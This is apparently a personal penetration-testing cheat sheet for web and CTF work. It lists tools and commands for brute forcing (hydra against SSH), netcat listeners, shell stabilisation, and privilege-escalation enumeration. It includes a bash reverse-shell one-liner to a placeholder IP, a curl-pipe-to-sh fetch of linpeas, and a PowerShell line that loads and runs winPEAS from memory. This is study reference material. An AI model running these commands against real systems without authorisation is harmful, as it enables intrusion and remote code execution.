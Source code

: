 ```yaml
---
layout: single
classes: #wide
title: "General Info"
sidebar:
    title: "Pentest Info"
    nav: infosec
collection: infopages
permalink: /infosec/general/
toc: true
toc_sticky: true
author_profile: true
---
```


# Welcome
Hi, this page is because I can't for the life of me remember my options when I am trying to web-test.  

## General tips
flask -> usually jinja2  
```2> /dev/null``` - hides error output  

## Tmux
`tmux a` - attaches session
`tmux -S <name>` - attaches file session or creates one of that name

## Brute-Force
ffuf  
cme - SMB brute force tool  
hydra:  
ex: ```hydra -l usr -P pass.txt ssh://www.example.com```

## Listeners
wireshark - self explanitory  
nc - net cat is a good listner
* Example usage: nc -lvnp 

## Wordlists
/usr/share/wordlists/  
* /seclists

## Network 
```python http.server``` - v3 python  
* Spawns python server

netexec:  
* Network service exploitation tool
* Helps automate assessing large networks

## Shells
reverse shell tips:  
```rlwrap nc -lnvpn``` (reverse shell with better fuctionality/arrowkeys)  

after get shell:  
```python3 -c 'import pty;pty.spawn("/bin/bash")'```
```ctrl - z```(to background the nc process)  
```stty raw -echo;fg```
```export TERM=xterm```   
* makes able to clear term
* better machine access

bash -i >& /dev/tcp/<your_ip>/<your_port> 0>&1

## Linpeas & Winpeas
[Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS):  
`curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh `  
`python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')" `  

[Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS):  
url =   
`$url = "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" `  
One liner to download and execute winPEASany from memory in a PS shell  
`$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("") `

## Other
Pspy - inspect application  
`powershell -c` - allows for powershell command  
winpeas & linpeas


## Refrance links 
tbd

## Post exploitation
look for weird configs  
linpeas.sh big

## Msfconsole
`sessions -i <session num>` - attach session   
`sessions -u <session num>` - upgrade to meterpreter

### Meterpreter
`channel -i <session>` - attaches

